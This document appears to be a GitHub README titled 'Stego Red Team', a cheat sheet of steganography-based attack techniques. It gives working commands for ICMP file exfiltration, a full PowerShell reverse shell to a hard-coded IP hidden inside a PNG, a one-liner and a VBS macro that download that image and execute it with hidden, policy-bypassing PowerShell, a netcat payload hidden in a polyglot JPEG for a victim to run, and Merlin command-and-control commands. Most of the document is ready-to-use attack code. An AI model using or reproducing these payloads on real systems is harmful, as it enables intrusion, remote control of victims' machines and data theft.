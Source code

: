 # Stego Red Team

## Data Exfiltration using ICMP 8

* PyExfil: https://github.com/ytisf/PyExfil

* Target: `python -c 'from pyexfil.network.ICMP.icmp_exfiltration import send_file;ip_addr = "127.0.0.1";send_file(ip_addr, src_ip_addr="127.0.0.1", file_path="/home/kali/stego/PyExfil/1.txt", max_packetsize=512, SLEEP=0.1)'`

* Server: `tcpdump -A icmp -i lo`



## Remote Access using PSImage

* PSImage: https://github.com/peewpw/Invoke-PSImage

* `echo '$client = New-Object System.Net.Sockets.TCPClient("46.101.222.52",444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' > payload.ps1`
* `Import-Module .\Invoke-PSImage.ps1`
* `Invoke-PSImage -Script .\payload.ps1 -Out .\evil.png -Image .\image.png -Web`
* `sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead("http://46.101.222.52/evil.png"));$o=a Byte[] 1920;(0..0)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..500]))`
* Create a VBS Macro: 
```
Sub RunAndGetCmd()

    strCommand = "Powershell -W Hidden -Exec Bypass -Command ""sal a New-Object;Add-Type -A System.Drawing;$g=a System.Drawing.Bitmap((a Net.WebClient).OpenRead('http://46.101.222.52/evil.png'));$o=a Byte[] 1920;(0..0)|%{foreach($x in(0..1919)){$p=$g.GetPixel($x,$_);$o[$_*1920+$x]=([math]::Floor(($p.B-band15)*16)-bor($p.G -band 15))}};IEX([System.Text.Encoding]::ASCII.GetString($o[0..500]))"""
    Set WshShell = CreateObject("WScript.Shell")
    Set WshShellExec = WshShell.Exec(strCommand)
    strOutput = WshShellExec.StdOut.ReadAll

End Sub
```
* `nc -nlvp 444`

* VirusTotal report of the artifact generated: https://www.virustotal.com/gui/file/2ee890676fdaf5daf128cd0637f2f86cbe01d8db3bef23c9ee897c841d549095/details

## Polyglot Payloads

* Powerglot: https://github.com/mindcrypt/powerglot

* **Hiding a cover-channel wiht netcat in a JPEG image**

* Attacker
```echo "nc 127.0.0.1 4444" > netcat.sh
 python3 powerglot.py -o netcat.sh cat.jpeg cat-netcat.jpeg
 nc -nvlp 4444```

* Victim
`chmod +x cat-netcat.jpg | ./cat-netcat.jpg`


## Post-Exploitation over HTTP/2 C&C

* `./ merlinServer-Linux-x64 -i 46.101.222.52`
* `./ merlinAgent-Linux-x64 -url https://46.101.222.52:443`
 
 
 
## Awsome Tools & Resources

* SpookFlare: https://artofpwn.com/spookflare.html
* Packet Whisper: https://github.com/TryCatchHCF/PacketWhisper
* Merlin: https://github.com/Ne0nd0g/merlin
* Steganography Network: https://github.com/microkost/Steganography-for-IP-networks
* Mindcrypt Repo: https://github.com/mindcrypt
